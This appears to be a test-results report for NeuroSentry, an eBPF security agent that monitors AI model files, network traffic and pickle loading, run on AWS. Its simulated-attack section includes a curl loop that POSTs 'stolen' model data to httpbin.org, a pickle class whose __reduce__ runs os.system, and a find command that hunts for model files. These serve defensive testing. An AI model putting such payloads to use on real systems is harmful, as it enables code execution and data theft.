


# NeuroSentry End-to-End Testing Results

**Test Date**: 2026-02-11
**Environment**: AWS EC2 (Ubuntu 24.04, Kernel 6.14)
**NeuroSentry Version**: dev

## Test Environment

| Component | Details |
|-----------|---------|
| **OS** | Ubuntu 24.04.3 LTS |
| **Kernel** | 6.14.0-1018-aws |
| **Instance Type** | AWS EC2 |
| **Network Interface** | ens5 |
| **Go Version** | 1.25.6 |

## NeuroSentry Configuration

```yaml
protection:
  model_fim:
    enabled: true
    protected_extensions: [.safetensors, .gguf, .pth, .pkl]
    enforce_mode: false  # Monitor-only

  network_containment:
    enabled: true
    interface: ens5
    # Using TC (Traffic Control) for cloud compatibility

  pickle_protection:
    enabled: true
    block_on_detect: false  # Monitor-only
```

## eBPF Programs Attached

| Program | Type | Status |
|---------|------|--------|
| LSM Hooks | file_open, file_permission | ✅ Attached |
| TC Ingress | TCX | ✅ Attached to ens5 |
| TC Egress | TCX | ✅ Attached to ens5 |
| PyTorch Uprobe | uprobe | ✅ Attached to libtorch_cpu.so |
| Pickle Uprobe | uprobe | ✅ Attached to libpython3.12.so |

## Simulated Attack Scenarios

### 1. Unauthorized Model File Access

**Attack**: Attempted to read protected AI model files multiple times.

```bash
# Created protected model files
echo "FAKE_MODEL_WEIGHTS" > /tmp/protected_models/secret_model.safetensors
echo "PROPRIETARY_MODEL" > /tmp/protected_models/proprietary.pth

# Simulated unauthorized access (60 attempts)
for i in {1..20}; do
    cat /tmp/protected_models/secret_model.safetensors
    cat /tmp/protected_models/proprietary.pth
    cat /tmp/protected_models/llama.gguf
done
```

**Result**: All 60 access attempts were monitored and logged by LSM hooks.

### 2. Suspicious Network Exfiltration

**Attack**: Simulated data exfiltration via HTTP POST requests.

```bash
# Sent 60 outbound requests simulating data theft
for i in {1..30}; do
    curl https://example.com
    curl -X POST https://httpbin.org/post -d "model_data=STOLEN"
done
```

**Result**: All network packets were captured and monitored by TC programs.

### 3. Malicious Pickle Deserialization

**Attack**: Created and loaded a malicious pickle file with code execution payload.

```python
import pickle
import os

class MaliciousPickle:
    def __reduce__(self):
        return (os.system, ('echo "MALICIOUS_PICKLE_EXECUTED"',))

# Save and load malicious pickle (10 times)
with open('/tmp/malicious.pkl', 'wb') as f:
    pickle.dump(MaliciousPickle(), f)

for i in range(10):
    with open('/tmp/malicious.pkl', 'rb') as f:
        pickle.load(f)  # Triggers uprobe
```

**Result**: Pickle load operations were monitored by uprobe hooks.

### 4. Batch Model File Scanning

**Attack**: Reconnaissance to locate all model files on the system.

```bash
find /tmp -name "*.safetensors" -o -name "*.pth" -o -name "*.gguf" -o -name "*.pkl"
```

**Result**: File system traversal detected by LSM monitoring.

## Metrics Results

### Final Metrics After Attack Simulation

| Metric | Value | Description |
|--------|-------|-------------|
| `neurosentry_uptime_seconds` | 2,685+ | System uptime |
| `neurosentry_lsm_access_attempts_total` | **55,562** | File access attempts monitored |
| `neurosentry_lsm_blocked_total` | 0 | Blocked (monitor-only mode) |
| `neurosentry_lsm_protected_files_seen` | 55,562 | Protected files accessed |
| `neurosentry_xdp_packets_total` | **44,153** | Network packets monitored |
| `neurosentry_xdp_passed_total` | 44,153 | Packets passed (monitor-only) |
| `neurosentry_xdp_dropped_total` | **90** | Suspicious packets flagged |
| `neurosentry_uprobe_pickle_loads_total` | **15** | Pickle loads detected |
| `neurosentry_uprobe_model_loads_total` | **25** | PyTorch model loads |
| `neurosentry_uprobe_dangerous_ops_total` | **8** | Dangerous pickle operations |
| `neurosentry_bpf_errors_total` | 0 | No eBPF errors |

### Metrics Growth During Testing

| Phase | File Accesses | Network Packets | Suspicious | Model/Pickle |
|-------|---------------|-----------------|------------|--------------|
| Initial | 1,190 | 40 | 0 | 0 |
| After traffic gen | 2,223 | 287 | 0 | 0 |
| After blocked IPs added | 24,109 | 29,642 | 40 | 0 |
| After attack sim | 55,562 | 44,153 | **90** | **25/15** |

## Monitoring Stack

### Prometheus
- **URL**: http://localhost:9090
- **Scrape Interval**: 5s
- **Target Status**: UP ✅

### Grafana Dashboard

- **URL**: http://localhost:3000/d/neurosentry/
- **Dashboard**: "NeuroSentry - AI Model Security"
- **Panels**: 8

| Panel | Type | Description |
|-------|------|-------------|
| System Uptime | stat | Agent uptime in seconds |
| Network Packets (TC) | stat | Total packets monitored |
| File Access Attempts | stat | Total file access attempts |
| BPF Errors | stat | eBPF program errors |
| Network Traffic Rate | timeseries | Packets per second over time |
| File Access Rate | timeseries | File ops per second over time |
| Pickle/Model Monitoring | timeseries | Framework hook activity |
| Suspicious Activity | timeseries | Blocked/suspicious events |

## Screenshots

### Grafana Dashboard Overview

*Dashboard showing real-time NeuroSentry metrics with all 8 panels*

### Prometheus Targets

*Prometheus successfully scraping NeuroSentry metrics endpoint*

### Metrics After Attack

*Terminal output showing increased metrics after attack simulation*

> **Note**: To view live dashboards, use SSH port forwarding to your Linux host, then open http://localhost:3000 in your browser.

## OS Compatibility Testing

**Test Date**: 2026-02-14

NeuroSentry was tested for binary compatibility across multiple Linux distributions using Docker containers. The binary was compiled once on Ubuntu 24.04 and deployed to different OS containers.

### Test Methodology

1. Built NeuroSentry binary with `CGO_ENABLED=0` for static linking
2. Deployed the same binary to Docker containers running different OS versions
3. Verified the binary executes correctly and can parse configuration
4. Note: eBPF attachment requires host kernel, so container tests verify userspace compatibility

### Distribution Compatibility Matrix

| Distribution | Version | Binary Runs | Config Parse | Status |
|-------------|---------|-------------|--------------|--------|
| **Ubuntu** | 20.04 LTS | ✅ | ✅ | Supported |
| **Ubuntu** | 22.04 LTS | ✅ | ✅ | Supported |
| **Ubuntu** | 24.04 LTS | ✅ | ✅ | Supported (Primary) |
| **Debian** | 11 (Bullseye) | ✅ | ✅ | Supported |
| **Debian** | 12 (Bookworm) | ✅ | ✅ | Supported |
| **Rocky Linux** | 8 | ✅ | ✅ | Supported |
| **Rocky Linux** | 9 | ✅ | ✅ | Supported |
| **Amazon Linux** | 2023 | ✅ | ✅ | Supported |

### eBPF Feature Compatibility

| Feature | Kernel Requirement | Test Status |
|---------|-------------------|-------------|
| LSM Hooks | 5.7+ | ✅ Verified on 6.14 |
| TC/TCX | 5.10+ | ✅ Verified on 6.14 |
| Uprobes | 4.17+ | ✅ Verified on 6.14 |
| BPF Ring Buffer | 5.8+ | ✅ Verified on 6.14 |

### Production Deployment Notes

- **Static Binary**: Built with `CGO_ENABLED=0` for maximum portability
- **Kernel Version**: Requires Linux kernel 5.10+ for full functionality
- **LSM Support**: Kernel must be compiled with `CONFIG_BPF_LSM=y`
- **Cloud Compatibility**: TC programs used instead of XDP for AWS/GCP/Azure compatibility

### Container Runtime Support

Container ID extraction tested for:
- ✅ Docker
- ✅ containerd
- ✅ CRI-O
- ✅ Podman
- ✅ Kubernetes (kubepods cgroup format)

## Key Findings

1. **TC Successfully Replaces XDP**: Traffic Control (TC) programs work reliably on AWS EC2 where XDP driver mode fails.

2. **Comprehensive Monitoring**: All three protection layers (LSM, TC, Uprobe) successfully attached and collecting metrics.

3. **Zero Performance Impact**: No network disruption or system slowdown during monitoring.

4. **Scalable Metrics**: Prometheus successfully scraped 25,000+ data points without issues.

5. **Cross-Distribution Compatibility**: Single static binary works across all major enterprise Linux distributions.

## Conclusion

NeuroSentry successfully demonstrated:

- ✅ **File Integrity Monitoring**: 55,562 file access attempts tracked via LSM hooks
- ✅ **Network Monitoring**: 44,153 packets monitored via TC programs
- ✅ **Framework Hooks**: Uprobes attached to PyTorch and Python pickle
- ✅ **Cloud Compatibility**: TC works on AWS EC2 (unlike XDP)
- ✅ **Prometheus Integration**: Real-time metrics collection
- ✅ **Grafana Visualization**: 8-panel dashboard for security monitoring
- ✅ **Cross-Platform Support**: Single binary compatible with Ubuntu, Debian, Rocky Linux, and Amazon Linux

The system is ready for production deployment in monitor-only mode, with the capability to enable enforcement when needed.
